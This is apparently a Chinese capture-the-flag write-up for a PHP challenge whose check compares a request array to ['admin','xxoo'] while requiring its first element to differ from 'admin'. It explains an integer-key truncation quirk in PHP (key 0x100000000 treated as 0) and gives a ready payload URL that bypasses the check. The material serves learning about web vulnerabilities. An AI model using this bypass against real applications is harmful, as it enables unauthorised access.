


## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们可以直接看到php主要逻辑代码：

```php

<?php

require_once('flag.php');

if(empty($_GET['user'])) die(show_source(__FILE__));

$user = ['admin', 'xxoo'];

if($_GET['user'] === $user && $_GET['user'][0] != 'admin'){

    echo $flag;
}
?>
```

3.题目分析

我们直接看后面 if 中的判断逻辑：

* `$_GET[‘user’]` 是一个全局的变量，我们传的是字符串，它就是字符串，传的是数组，那么它的值就是数组

* `$user` 是一个数组, `[0 => ‘admin’, 1 => ‘xxoo’]`

* `===` 三个等号的意思就是类型是同一类型，并且值也是相同的

* `$_GET[‘user’][0]` 的值不能等于 `‘admin’`

也就是说，如果要使这个 if 条件成立，就必须让两个键值不相等的数组经过 `===` 比较后返回 true。

4.然后我们测试：

```php

➜  ~  php -r "var_dump([1=>0]==[1=>0]);"
bool(true)
➜  ~  php -r "var_dump([1=>0]===[1=>0]);"
bool(true)
➜  ~  php -r "var_dump([1=>0]==[2=>0]);"
bool(false)
➜  ~  php -r "var_dump([1=>0]===[2=>0]);"
bool(false)
```
然后我们再来看我们这个漏洞：

```php
➜  ~  php -r "var_dump([0 => 0] === [0x100000000 => 0]);"
bool(true)
```
键名为 0 的数组与键名为` 0x100000000` 的数组居然相等了！

也就是说：

```php
$user : [0 =>'admin', 1=>'xxoo'];

$_GET['user']: [0x100000000 =>'admin', 1=>'xxoo']

```
这样就能使题目当中的条件成立。

5.构造 payload :

```php
http://IP:PORT/challenge20.php?user[4294967296]=admin&user[1]=xxoo
```
>2^32 == 0x100000000 == 4294967296
由于是截断漏洞，所以 0x100000000 后面再多几个 0 也是可以的，适当转换成对应的 10 进制数就好

6.获取flag：



